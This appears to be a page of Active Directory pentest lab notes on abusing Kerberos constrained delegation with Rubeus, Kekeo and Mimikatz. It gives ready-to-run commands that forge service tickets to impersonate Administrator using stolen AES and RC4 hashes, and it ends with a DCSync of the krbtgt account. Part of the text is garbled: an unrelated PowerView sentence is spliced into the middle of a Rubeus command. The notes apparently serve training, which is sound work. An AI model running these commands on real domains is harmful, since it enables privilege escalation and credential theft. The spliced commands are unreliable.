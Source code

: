 #### Rubeus

Abusing with Rubeus

We can use the following command (We are requesting a TGT and TGS in a single command):

~~~
Rubeus.exUsing powerview, we can find target computers like so:

e s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
~~~

Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified.

This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service!

#### Kekeo

Abusing with Kekeo

Either plaintext password or NTLM hash is required. If we have access to dcorp-adminsrv hash

Using asktgt from Kekeo, we request a TGT:

~~~
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
~~~

Using s4u from Kekeo_one (no SNAME validation):

~~~
tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi/user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
~~~

Using mimikatz:
~~~
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'   
~~~

~~~
Invoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local  
~~~

~~~
Invoke-Mimikatz -Command '"lsadump::dcsync/user:dcorp\krbtgt"'
~~~

#### Rubeus

Abusing with Rubeus
